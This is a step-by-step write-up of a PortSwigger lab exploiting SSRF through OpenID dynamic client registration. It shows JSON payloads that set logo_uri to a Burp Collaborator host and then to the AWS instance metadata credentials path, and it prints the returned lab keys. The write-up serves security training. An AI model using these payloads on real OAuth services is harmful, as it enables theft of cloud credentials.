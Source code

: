 # SSRF via OpenID dynamic client registration

## This lab allows client applications to dynamically register themselves with the [OAuth](https://portswigger.net/web-security/oauth) service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

## To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

## You can log in to your own account using the following credentials: `wiener:peter`

##### Note: this lab need burpsuite pro

step 1

login to account and logout 
then login again and see HTTP history

![[lab5_http_history_first_login_2nd_login.png]]


step 2
click on auth?client_id in HTTP history

![[lab5_http_history_auth_client_id.png]]

step 3
##### Hint: 
![[lab5_hint_openId_connect.png]]


step 4

my outh url: `oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net`
add` /.well-known/openid-configuration` at the end of url

```
https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/.well-known/openid-configuration
```

open this url into browser you will get json file with bunch on details search reg

![[lab5_well_known_configuration.png]]


you can see same result in burpsuite
and search registration_endpoint
![[lab5_well_known_configuration_http_history.png]]


now open /reg link
`https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/reg`

![[lab5_auth_reg_invalid_request.png]]


in burpsuite

![[lab5_reg_404_not_found_http_history.png]]


step 5
send /reg to repeater change get request to post
send request you will get error only json supported

![[lab5_change_get_to_post_into_reg.png]]


step 6
test with json 
but again error but this time redirect_uri mandatory 

![[lab5_post_request_redirect_mandatory.png]]


step 7
add redirect_uris error because it must be in array format

![[lab5_redirect_uris_error_array.png]]


step 8
add redirect_uris in array format
you will get 201 response

![[lab5_redirect_uris_201_success.png]]


step 9

##### HINT:
![[lab5_unprotected_dynamic_client_registration.png]]



step 10
find client with id and with logo
it will be HTTP history when first time webpage load

![[lab5_client_with_id_with_logo.png]]


step 11

got to step 8 
add logo_uri into json
```json
{
"redirect_uris":  ["https://example.com"
]

}
```
use burp collaborator
`"logo_uri": "https://client-app.com/logo.png"`
change url with burp collaborator url
`"logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"`

```json
{
"redirect_uris":  ["https://example.com"
],
"logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"
}
```

add the above payload and send request you will get client id

![[lab5_add_burp_collab_url_in_logo_uri.png]]


step 12

use  step 10
replace client id with this client id send request

![[lab5_change_client_id_200_response.png]]

burp collaborator poll

![[lab5_burp_collab_http_response.png]]


step 13
go to /reg into repeater
add logo_uri : `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`
final payload look like
```json
{
"redirect_uris":  ["https://example.com"
],
"logo_uri" :     "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

![[lab5_admin_logo_uri_client_id_generated.png]]


step 14

got to /client into repeater 
replace client id from step 13

![[lab5_client_with_admin_client_id_scect_key_generated.png]]



step 15
```json
{
  "Code" : "Success",
  "LastUpdated" : "2023-06-08T14:13:01.577025071Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ed6ZtIT2sQtcEBMadHym",
  "SecretAccessKey" : "hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW",
  "Token" : "GEmC2Vk1YRCttuaokzEcF6cNvKdLrUgw2P4U4xtinAbK8a56Bm9USOa6Qo0a3cUaQUwBSX0NO5Dr2RCcB7EhMa9kuSLOnoEGBnFu7CJLDYY3BMGcblE3iTngdifFM0XjBce8MqZtCdm95E3oRiPnZvac09KUg2kxOCTwgUpQOpOLQE3UivyHtgJutlmRRN2yGYl0DhVotyiam7B6yN5tnqDd7rnxw9fMKMrM5VZzPNuo6nzfQo9blszLJeXRzYON",
  "Expiration" : "2029-06-06T14:13:01.577025071Z"
}
```

submit SecretAccessKey: `hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW`

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab5_solved_lab.png]]


